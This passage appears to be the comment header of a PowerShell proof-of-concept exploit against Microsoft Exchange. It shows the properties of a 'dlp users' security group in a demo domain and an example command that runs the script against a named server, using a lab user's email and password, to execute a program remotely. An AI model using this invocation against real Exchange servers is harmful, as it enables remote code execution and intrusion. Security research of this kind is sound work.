     # Capabilities                : {}
    # LinkedPartnerGroupId        :
    # LinkedPartnerOrganizationId :
    # Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    # IsValid                     : True
    # ExchangeVersion             : 0.10 (14.0.100.0)
    # Name                        : dlp users
    # DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
    # Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
    # ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
    # ObjectClass                 : {top, group}
    # WhenChanged                 : 6/12/2020 11:29:31 PM
    # WhenCreated                 : 6/12/2020 11:29:31 PM
    # WhenChangedUTC              : 6/12/2020 3:29:31 PM
    # WhenCreatedUTC              : 6/12/2020 3:29:31 PM
    # OrganizationId              :
    # Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
    # OriginatingServer           : DEAD01.exchangedemo.com
    # ObjectState                 : Changed
    #
    # Example:
    #
    # PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr harrym@exchangedemo.com -pwd user123### -cmd mspaint